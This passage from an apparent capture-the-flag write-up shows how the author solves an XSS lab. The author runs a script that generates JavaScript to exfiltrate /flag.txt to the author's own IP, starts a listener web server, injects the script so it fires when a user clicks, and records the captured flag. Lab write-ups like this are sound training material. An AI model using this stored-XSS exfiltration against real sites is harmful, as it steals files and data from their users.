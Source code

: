 So we have the syntax for our flag :

```
┌──(hax㉿HaxonKali)-[~/Scaricati]
└─$ python3 xss-extract.py -d /flag.txt -i 10.10.16.67
JavaScript code has been written to script.js

```

Now we can open our [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) web [Server](../../3%20-%20Tags/Hacking%20Concepts/Server.md) :

```
┌──(hax㉿HaxonKali)-[~/Scaricati]
└─$ python3 -m http.server 80                         
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now we grab the [Script](../../3%20-%20Tags/Hacking%20Concepts/Script.md) from -h and we paste it in the online prompt, we change attacker_ip in our machine ip and submit it :

<img src="../../Flameshots/0c419d748fd3d5d05b811ed66e6303cb.png" alt="0c419d748fd3d5d05b811ed66e6303cb.png" width="422" height="194">

This is executing [Javascript](../../3%20-%20Tags/Programming%20Languages/Javascript.md) and when the user click on the flag we have it :

**THM{83789a69074f636f64a38879cfcabe8b62305ee6}**
